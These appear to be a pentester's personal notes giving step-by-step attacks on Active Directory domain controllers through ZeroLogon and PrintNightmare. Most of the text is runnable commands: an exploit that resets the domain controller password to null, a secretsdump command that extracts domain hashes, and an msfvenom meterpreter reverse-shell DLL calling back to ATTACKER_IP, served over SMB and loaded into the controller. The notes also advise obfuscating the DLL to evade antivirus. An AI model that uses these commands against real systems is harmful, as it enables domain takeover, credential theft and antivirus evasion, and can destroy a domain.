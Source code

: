 There are new and recent vulnerabilities in Active Directory such as:
- ZeroLogon (if not executed in the right way can destroy the domain)
- PrintNightmare
- Sam the Admin

It has sense to check for them in the environment.

These vulnerbilities are very severe and can be dangerous for the domain.



# Abusing ZeroLogon
**==This type of attack can set the domain controller password to `null` and give then completely access to it.==**

==**But if we don't restore the password we will destroy the domain.**==

The attack is based on a problem on the cryptography and it is very complex.



First of all we need the exploit that can be found here [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

Another important tool we need to use to understand if the domain controller is vulnerable to this attack is [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)

## Step 1 : run the checker
All we need to do is to run the tester with the domain controller name and the IP:
```bash
python3 zerologon_checker.py DOMAIN_C_NAME D_C_IP
```
- ![[Pasted image 20241221154211.png]]

This tells us if it is vulnerable. In general we can stop here since the attack is very dangerous.


## Step 2 : run the attack
Now we can run the attack in this way:
```bash
python3 cve-2020-1472-exploit.py DOMAIN_C_NAME DOMAIN_C_NAME
```
- ![[Pasted image 20241221154456.png]]


At this point we cna use `secretsdump` to see if worked.
```bash 
secretsdump.py --just-dc DOMAIN/DOMAIN_C_NAME\$@D_C_IP
```
- we just need to push `enter` and we are in
- ![[Pasted image 20241221154658.png]]


So we have all the infomration now and we are in.


## Step 3 : restore the machine
At this point we get the administrator hash (the last part) from the results of the command `secretsdump` and we run:
```bash
secretsdump.py administrator@DOMAIN_C_IP -hashes ADMIN_HASH
```
- ![[Pasted image 20241221154927.png]]


From here we need to get the `plain_password_hex` and use it to restore the password:
- ![[Pasted image 20241221155036.png]]


At this point we have to run the `restorepassword` tool contained in the folder:
```bash
python3 restorepassword.py DOMAIN/DC_NAME@DC_NAME -target-ip DC_IP -hexpass HEX_PASS
```
- ![[Pasted image 20241221155230.png]]



# PrintNightmare attack
This attack takes advatage of the printer spooler (used to add printers and so on).
The problem is that it is run with privilege on the system.

So this attacks allows to execute code in a privilege mode.

We need to use the tool [[https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)]([https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675))
## Step 1 : check if vulnerable
To check if it is vulnerable to this CVE we have to run:
```bash
rpcdump.py @DOMAIN_C_IP | egrep 'MS-RPRN|MS-PAR'
```
- ![[Pasted image 20241221155739.png]]


If we see this print, it is vulnerable.

## Step 2 :  setup for the attack

First of all we need to install `impacket` (a specific version contianed in the tool):
```bash

pip3 uninstall impacket

git clone https://github.com/cube0x0/impacket

cd impacket

python3 ./setup.py install

```


## Step 3 : use msfvenom to create a shell code to insert in a dll

For example we create a remote shell:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f dll > shell.dll
```
- ![[Pasted image 20241221160423.png]]

At this point we run a listener on msfconsole:
```bash
msfconsole

use multi/handler

set payload windows/x64/meterpreter/reverse_tcp

set lport PORT_USED_IN_THE_DLL

set lhost ATTACKER_IP

run
```


Perfect, now we need to setup a fileshare, in order to shell the `shell.dll` so we can do:
```bash
cd impacket

smbserver.py share `pwd`-smb2support

```


## Step 3 : run the attack
To run the attack we can just do:
```bash
python3 CVE-2021-1675.py DOMAIN/unsername:PASSWORD@DC_IP '\\ATTACKER_IP\share\shell.dll'
```
- ![[Pasted image 20241221160928.png]]

If we have an error we need to run the `smbserver` as smb2support. It would be:
- ![[Pasted image 20241221161149.png]]

GENERALLY ANTIVIRUS WILL BLOCK US!

If not we could execute commands:
- ![[Pasted image 20241221161309.png]]

<mark style="background: #FF5582A6;">We just need to obfuscate the dll file to bypass the antivirus.</mark>
- with `msfconsole` we can do it




